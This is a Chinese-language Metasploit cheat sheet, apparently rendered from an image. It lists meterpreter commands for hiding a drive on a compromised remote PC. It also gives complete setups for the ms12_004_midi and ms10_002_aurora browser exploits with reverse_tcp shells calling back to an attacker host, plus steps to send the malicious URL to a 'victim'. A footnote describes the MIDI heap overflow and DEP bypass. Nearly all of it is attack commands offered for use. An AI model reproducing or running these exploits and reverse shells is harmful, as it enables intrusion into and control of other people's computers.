 ## 使用Metaspolit隐藏远程PC的驱动器

```bash
meterpreter>shell
diskpart
list volume #显示所有驱动器的列表
select volume 1 #选择要隐藏的驱动器
remove letter e #这里，E 是你要隐藏的驱动器号(Ltr)。
```

## 使用堆溢出攻击破解远程XP [^1]

```bash
use exploit/windows/brower/ms12_004_midi
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.4
set lport 4444
set srvhost 192.168.1.4
set srvport 80
set uripath salesreport
exploit
# 将 url:http://192.168.1.4:80/salesreport 发送给受害者
sessions
```

## 黑客远程PC与操作Aurora攻击(极光行动)

```bash
use exploit/windows/brower/ms10_002_aurora
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.4
set srvhost 192.168.1.4
set uripath meeting
exploit
# 将 url:http://192.168.1.4:8080/meeting 发送给受害者
sessions
```

---

[^1]: 此模块利用Windows多媒体库（winmm.dll）中的堆溢出漏洞。解析特制的MIDI文件时会出现此漏洞。使用Windows Media Player ActiveX控件可以实现远程代码执行。通过提供具有特定事件的特制MIDI文件来完成开发，导致偏移计算高于堆上可用的值（由WINMM！winmmAlloc分配的0x400），然后允许我们“inc al”或“dec al” “一个字节。这可以用来破坏我们设置的数组（CImplAry），并强制浏览器混淆tagVARIANT对象中的类型，这些对象利用用户上下文中的远程代码执行。注意：此时，对于IE 8目标，您可以选择JRE ROP或msvcrt ROP来绕过DEP（数据执行保护）